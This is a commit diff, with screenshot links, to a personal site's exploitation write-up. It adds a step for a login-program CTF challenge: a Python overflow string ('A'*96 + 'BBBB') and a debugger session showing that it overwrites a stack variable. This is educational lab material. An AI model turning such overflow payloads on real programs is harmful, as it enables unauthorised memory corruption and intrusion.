

Before and after one commit to Connor-McCartney/Connor-McCartney.github.io, a Jekyll site: the page built from _pages/misc/pwn.md, in a window 1280 px wide and 900 px high, scrolled down 24248 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; before the commit the page ends 25118 px from its top, so only the background shows below that.

Commit message:
Update pwn.md

````diff
--- a/_pages/misc/pwn.md
+++ b/_pages/misc/pwn.md
@@ -989,6 +989,21 @@ To compile the 32-bit code I had to install `lib32-glibc` and `lib32-gcc-libs`,
 
 I found that the address of `passcode1` is at `ebp - 0x10`.
 
+So we can send something like this to change passcode1 to whatever we like:
+
+```python
+>>> 'A'*96 + 'BBBB'
+'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB'
+```
+
+```
+pwndbg> break login
+Toddler's Secure Login System 1.0 beta.
+enter you name : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
+pwndbg> x $ebp-0x10
+0xffffd618:     0x42424242
+```
+
 
 <br>
 
````
